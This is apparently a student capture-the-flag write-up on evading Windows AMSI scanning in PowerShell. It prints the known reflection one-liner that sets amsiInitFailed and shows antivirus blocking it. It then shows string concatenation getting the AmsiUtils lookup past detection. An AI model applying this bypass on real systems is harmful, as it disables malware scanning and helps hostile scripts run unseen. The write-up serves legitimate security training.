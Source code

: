 ## TASK 4 : Object Concatenation 
### What flag is found after uploading a properly obfuscated snippet? 
The following powershell snippet is detect as malicious  :

```powershell
PS C:\Users\Student> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
{: .nolineno }

So i decide to break the command in multiple parts and test those with breaking methods. The first block of code doesn't trigger the malicious content :

```powershell
PS C:\Users\Student> [Ref].Assembly

GAC    Version        Location
---    -------        --------
True   v4.0.30319     C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856...
```
{: .nolineno }

Let's add the first object call :

```powershell
PS C:\Users\Student> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
{: .nolineno }

And now with breaking parts for the String parameters :

```powershell
PS C:\Users\Student> [Ref].Assembly.GetType('Sys'+'tem.Manag'+'ement.Automa'+'tion.Amsi'+'Utils')

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
False    False    AmsiUtils                                System.Object
```
{: .nolineno }
